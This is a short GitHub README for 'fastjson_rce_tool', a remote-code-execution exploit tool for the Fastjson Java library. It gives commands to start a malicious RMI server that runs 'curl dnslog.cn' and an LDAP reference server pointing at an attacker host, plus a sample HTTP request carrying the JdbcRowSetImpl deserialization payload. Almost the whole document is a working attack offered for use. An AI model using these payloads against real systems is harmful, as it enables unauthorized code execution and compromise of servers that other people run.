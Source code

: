 # fastjson_rce_tool

rmi:
java -cp fastjson_tool.jar EvilRMIServer 1099 53 "curl dnslog.cn"


ladp:
java -cp fastjson_tool.jar LDAPRefServer http://ip:port/#Object 8888

示例：

```
POST /test HTTP/1.1
Host: 127.0.0.1
Content-Type: application/json
Accept-Encoding: gzip, deflate
Connection: close
Accept: */*
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 12_3_1 like Mac OS X) 

{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://ip:port/Object","autoCommit":true}
```


![0](https://github.com/wyzxxz/fastjson_rce_tool/blob/master/work.png)

![1](https://github.com/wyzxxz/fastjson_rce_tool/blob/master/2.png)

